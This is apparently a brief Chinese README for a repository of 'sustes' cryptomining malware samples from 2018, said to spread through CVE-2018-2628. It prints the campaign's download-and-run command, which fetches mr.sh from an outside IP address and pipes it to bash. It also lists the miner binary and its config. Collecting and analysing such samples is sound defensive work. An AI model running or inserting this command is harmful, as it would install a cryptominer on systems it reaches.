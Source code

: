 # sustes
2018.9 疑似利用CVE-2018-2628作为攻击手段
wget –q –O- http://192.99.142.226:8220/mr.sh | bash -sh

### mr.sh:
开始执行的主要脚本

### xm64:
恶意挖矿本体

### wt.conf
恶意挖矿配置信息